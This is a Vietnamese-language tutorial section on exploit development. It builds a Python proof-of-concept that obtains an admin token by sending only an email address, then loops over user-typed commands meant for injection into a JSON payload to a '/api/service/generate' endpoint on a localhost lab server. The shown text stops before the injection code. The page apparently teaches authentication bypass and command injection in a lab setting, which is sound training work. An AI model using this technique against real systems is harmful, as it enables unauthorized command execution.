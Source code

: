 
# 15. Phát Triển Exploit - Tự Động Hóa Quá Trình Khai Thác

Trong phần này, chúng ta sẽ xây dựng một script tự động để khai thác lỗ hổng thông qua **HTTP response** để trích xuất kết quả của các lệnh hệ thống. Mục tiêu của chúng ta là phát triển một Proof of Concept (PoC) hoàn chỉnh, với các bước sau:

1. **Lấy Token Xác Thực Admin**: Để thực hiện yêu cầu, ta cần một token xác thực.
2. **Nhập Lệnh Từ Người Dùng**: Cho phép người dùng nhập lệnh mà họ muốn thực thi.
3. **Chèn Lệnh vào Payload**: Đưa lệnh vào JSON payload.
4. **Gửi Yêu Cầu POST**: Gửi yêu cầu POST tới API `/api/service/generate` với lệnh đã được chèn.
5. **Phân Tích Phản Hồi và In Kết Quả**: Phân tích phản hồi từ server và in ra kết quả của lệnh.
6. **Lặp Lại Bước 2**: Cho phép người dùng nhập thêm các lệnh và lấy kết quả.

### 1. **Định Nghĩa Các Biến Cơ Bản và Nhập Thư Viện**
Trước tiên, chúng ta sẽ định nghĩa các biến cơ bản cho server, port và các endpoint, đồng thời nhập các thư viện cần thiết:

```python
#!/usr/bin/python3
import requests
import json

# Định nghĩa các thông tin server và các endpoint API
server = "localhost"
port = 5000
url = f"http://{server}:{port}"
auth_endpoint = f"{url}/api/auth/authenticate"
qr_endpoint = f"{url}/api/service/generate"
```

### 2. **Lấy Token Xác Thực**
Sau khi xác định endpoint cho việc xác thực, chúng ta cần gửi yêu cầu POST để nhận được token xác thực từ server:

```python
# Xác định các header và dữ liệu xác thực
headers = {"Content-Type": "application/json"}
data = {"email": "admin@domain.com"}

# Gửi yêu cầu POST đến endpoint xác thực
response = requests.post(auth_endpoint, headers=headers, data=json.dumps(data))

# Lấy token từ phản hồi JSON
token = response.json()['token']
```

Lúc này, bạn có thể in ra token để xác nhận rằng nó đã được lấy thành công.

### 3. **Nhập Lệnh Từ Người Dùng**
Chúng ta sẽ tạo một vòng lặp để nhận đầu vào từ người dùng và chuẩn bị payload cho lệnh đã nhập:

```python
while True:
    user_input = input("> ")
    print(user_input)
```

